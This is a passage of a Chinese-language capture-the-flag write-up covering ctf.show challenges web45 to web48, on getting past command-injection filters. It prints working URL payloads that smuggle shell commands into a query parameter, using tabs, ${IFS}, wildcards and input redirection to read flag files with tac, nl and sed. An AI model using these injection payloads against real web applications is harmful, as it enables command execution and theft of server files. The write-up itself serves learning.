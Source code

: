 用通配符 `*` 绕过

## web45

又过滤了空格

绕过方式在 web31 中已给出

```
http://af01b830-cdd7-45cc-9a2b-92d8b773afdc.challenge.ctf.show/?c=tac%09fla*||
http://af01b830-cdd7-45cc-9a2b-92d8b773afdc.challenge.ctf.show/?c=tac${IFS}fla*||
......
```

hint 如下

```bash
echo$IFS`tac$IFS*`%0A
```

测试了一下发现 echo 后面可以直接用 `$IFS` (不加大括号), 第二个 `$IFS` 后面不能跟字母, 否则会报错, 只能跟 `*`

命令会把当前目录下的所有文件的内容都显示出来

## web46

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081448472.png)

通配符 `*` 用不了可以换成 `?` (只匹配一个字符)

```
http://9f955132-28c2-44b7-8267-b88ab892538c.challenge.ctf.show/?c=tac%09fla?.???||
```

hint 是 `nl<fla''g.php||`

测了一下发现如果是 `*` `?` 这种通配符的话, 无法使用输入重定向 (因为可能会有多个文件)

像 `fla''.php` (其实就是 `flag.php`) 这种文件名唯一的才能使用 `<` 或者 `<>`

## web47

又过滤了 more less head sort tail

tac nl od 依然可以绕过

## web48

又过滤了 sed cut awk strings od curl 和反引号

tac 和 nl 绕过

查了一下发现 sed cut awk curl 也能读文件

以下仅列举一点内容 (因为我也不太会用...)

sed

```bash
sed '1ahello' flag.txt # 向第1行后面追加 hello, 但由于没有加 -n 选项, 默认输出文件所有内容
sed -n '/ctfshow/p' flag.txt # 打印匹配到 ctfshow 关键字的那一行
```
